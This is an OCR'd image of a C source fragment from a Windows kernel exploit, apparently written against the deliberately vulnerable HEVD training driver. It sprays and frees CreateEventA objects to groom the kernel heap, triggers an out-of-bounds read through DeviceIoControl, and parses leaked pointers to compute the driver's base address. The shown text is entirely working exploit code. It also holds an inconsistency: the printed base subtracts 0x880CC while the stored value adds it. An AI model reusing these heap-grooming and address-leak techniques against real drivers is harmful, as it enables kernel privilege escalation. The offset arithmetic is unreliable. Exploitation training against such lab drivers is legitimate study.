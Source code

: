 ```c

    printf("[+] Allocated objects containing a pointer to HEVD in place of the freed CreateEventA objects!\n");

    // Close the rest of the event objects
    for (int i = 1; i <= 5000; i += 2)
    {
      BOOL tempHandle2 = CloseHandle(
        eventObjects[i]
      );

      eventObjects[i] = NULL;

      // Error handling
      if (!tempHandle2)
      {
        printf("[-] Error! Unable to free the rest of the CreateEventA objects! Error: 0x%lx\n", GetLastError());
        exit(-1);
      }
    }

    // Array to store the buffer (output buffer for DeviceIoControl) and the base address
    unsigned long long outputBuffer[100];
    unsigned long long hevdBase;

    // Everything is now, theoretically, [FREE, UAFOBJ, FREE, UAFOBJ, FREE, UAFOBJ], barring any more randomization from the kLFH
    // Fill some of the holes, but not all, with vulnerable chunks that can read out-of-bounds (we don't want to fill up all the way to avoid reading from a page that isn't mapped)

    for (int i = 0; i <= 100; i++)
    {
      // Return buffer
      DWORD bytesReturned1;

      DeviceIoControl(
        driverHandle,
        0x0022204f,
        NULL,
        0,
        &outputBuffer,
        sizeof(outputBuffer),
        &bytesReturned1,
        NULL
      );

    }

    printf("[+] Successfully triggered the out-of-bounds read!\n");

    // Parse the output
    for (int i = 0; i <= 100; i++)
    {
      // Kernel mode address?
      if ((outputBuffer[i] & 0xfffff00000000000) == 0xfffff00000000000)
      {
        printf("[+] Address of function pointer in HEVD.sys: 0x%llx\n", outputBuffer[i]);
        printf("[+] Base address of HEVD.sys: 0x%llx\n", outputBuffer[i] - 0x880CC);

        // Store the variable for future usage
        hevdBase = outputBuffer[i] + 0x880CC;
        break;
```